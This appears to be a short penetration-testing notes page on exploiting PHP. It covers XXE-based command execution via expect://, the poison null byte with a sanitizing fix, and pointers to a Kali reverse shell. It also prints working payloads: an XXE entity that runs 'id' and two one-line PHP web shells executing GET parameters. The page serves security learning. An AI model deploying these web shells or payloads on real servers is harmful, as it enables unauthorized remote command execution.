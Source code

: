 # Exploiting PHP

## RCE via XXE

RCE through [XEE](xml-external-entity-attacks.md) is apparently rare, but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

## The Poison Null Byte

PHP string parsing is susceptible to [the poison null byte](poison-null-byte.md).

The best way to defend against these attacks is to simply sanitize strings by explicitly removing any null bytes they contain.

```php
$sanitized_string = str_replace(chr(0), '', $original_string);  
```

## Web-Based RCE

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

A slightly spruced-up version of this is available on Kali Linux as `/usr/share/webshells/php/simple-backdoor.php`.

On space-constrained systems, you can [compact this down to just 15 bytes](https://twitter.com/podalirius_/status/1488921781637365771):

```php
<?=`$_GET[1]`?>
```

## Reverse Shell

Check out `/usr/share/webshells/php/php-reverse-shell.php` on Kali Linux. Note that this only works on UNIX-like systems.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [Common PHP attacks: Poison Null Byte](https://defendtheweb.net/article/common-php-attacks-poison-null-byte)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> February 3, 2022
